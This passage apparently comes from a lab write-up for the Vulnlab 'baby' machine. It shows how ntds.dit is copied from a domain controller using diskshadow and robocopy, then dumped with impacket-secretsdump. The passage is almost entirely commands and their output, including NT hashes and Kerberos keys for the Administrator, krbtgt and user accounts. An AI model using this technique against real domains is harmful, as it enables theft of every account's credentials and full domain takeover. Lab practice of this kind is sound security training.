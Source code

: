```bash
diskshadow /s script.txt
copy X:\Windows\NTDS\ntds.dit C:\temp\
robocopy /b E:\Windows\ntds . ntds.dit
```

And now we can use secretdump to extract after downloading ntds.dit

```bash
──(root㉿kali)-[~/Vulnlab/machines/baby]
└─# impacket-secretsdump  -ntds ntds.dit -system system.hive local
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:9e2ab25057698925e5451557485a8bce:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:b55dcc5fde8be0e8b83b4122900446cb:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:ad08cbabedff5acb70049bef721524a23375708cadefcb788704ba00926944f4
Administrator:aes128-cts-hmac-sha1-96:ac7aa518b36d5ea26de83c8d6aa6714d
Administrator:des-cbc-md5:d38cb994ae806b97
BABYDC$:aes256-cts-hmac-sha1-96:6261331c8b710e1ee4b9bcdc2cd994ef6d8a56152cea160969f34a37f49062f6
BABYDC$:aes128-cts-hmac-sha1-96:d1af216d1f283f1dabf97b83b2ff6ff2
BABYDC$:des-cbc-md5:d501f8c1a46485c1
krbtgt:aes256-cts-hmac-sha1-96:9c578fe1635da9e96eb60ad29e4e4ad90fdd471ea4dff40c0c4fce290a313d97
krbtgt:aes128-cts-hmac-sha1-96:1541c9f79887b4305064ddae9ba09e14
krbtgt:des-cbc-md5:d57383f1b3130de5
baby.vl\Jacqueline.Barnett:aes256-cts-hmac-sha1-96:851185add791f50bcdc027e0a0385eadaa68ac1ca127180a7183432f8260e084
baby.vl\Jacqueline.Barnett:aes128-cts-hmac-sha1-96:3abb8a49cf283f5b443acb239fd6f032
baby.vl\Jacqueline.Barnett:des-cbc-md5:01df1349548a206b
baby.vl\Ashley.Webb:aes256-cts-hmac-sha1-96:fc119502b9384a8aa6aff3ad659aa63bab9ebb37b87564303035357d10fa1039
baby.vl\Ashley.Webb:aes128-cts-hmac-sha1-96:81f5f99fd72fadd005a218b96bf17528
baby.vl\Ashley.Webb:des-cbc-md5:9267976186c1320e
baby.vl\Hugh.George:aes256-cts-hmac-sha1-96:0ea359386edf3512d71d3a3a2797a75db3168d8002a6929fd242eb7503f54258
baby.vl\Hugh.George:aes128-cts-hmac-sha1-96:50b966bdf7c919bfe8e85324424833dc
baby.vl\Hugh.George:des-cbc-md5:296bec86fd323b3e
```
